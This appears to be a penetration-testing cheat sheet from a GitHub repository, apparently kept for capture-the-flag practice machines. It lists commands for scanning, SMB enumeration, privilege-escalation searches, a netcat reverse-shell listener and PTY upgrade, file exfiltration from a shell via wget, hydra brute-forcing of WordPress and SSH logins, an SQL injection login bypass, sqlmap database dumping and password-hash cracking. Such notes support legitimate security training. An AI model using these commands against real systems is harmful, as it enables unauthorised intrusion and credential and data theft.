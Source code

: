 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.1.2`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`

	smbclient //{machine IP}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null


----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server {port}

`In local Machine`

	wget machineip:8000/file.name


`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

------------------------------------------------------------------------------------------------------

`linpeas.sh`

	linpeas.sh is the best script for previlage escilation


-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`

       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

`john for hash`
	
	john --format=raw-sha1 hash

`ssh2johnhash`

	chmod 666 id_rsa #change mode to initial RSA private key file

`for ssh connection`

	ssh -i id_rsa user@ip 


------------------------------------------------------------------------------------------------------

`hydra`


        hydra -l user -P wordlists.txt {ip} -V http-form-post "page:parameters:string"



`example:`


        hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.208.134 -V http-form-post "wp-login.php:log=^USER^&^PASS^$wp-submit:LogIn&testcookie=1:F=incorrect"


`use burpsuit for rest of info`

--------------------------------------------------------------------------------------------------------

`hydra ssh`

	hydra -l jake -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.215.72 ssh -t 4 
	

-----------------------------------------------------------------------------------------------------


`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

`sqlmap`

	sqlmap -u http://10.10.71.73 --forms --tamper=space2comment --dump-all -dbms sqlite

----------------------------------------------------------------------------------------------------------------
`steghide`

	steghide extract -sf brooklyn99.jpg
	
`stegcracker`
	
	stegcracker brooklyn99.jpg  /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`binwalk`

	binwalk -e file.jpg


-------------------------------------------------------------------------------------------------------------------

`Network File System (NFS) `

`Know mount location` 

	 sudo showmount -e 'machine-ip'

`to mount the file`

	sudo mount -t nfs 'machine-ip':/opt/conf /tmp/mountme

`note` `/opt/conf/ is mount location` `and` `/tmp/mountme` `is where you want to save file`


-------------------------------------------------------------------------------------------------------------------------------------

`Redis`

	redis-cli ip_here  -a password_here

`command for redis interface`
	
	keys * for ls
	get 'filename' for cat

`for more`

	https://redis.io/commands


# @cc github.com/prakashchand72


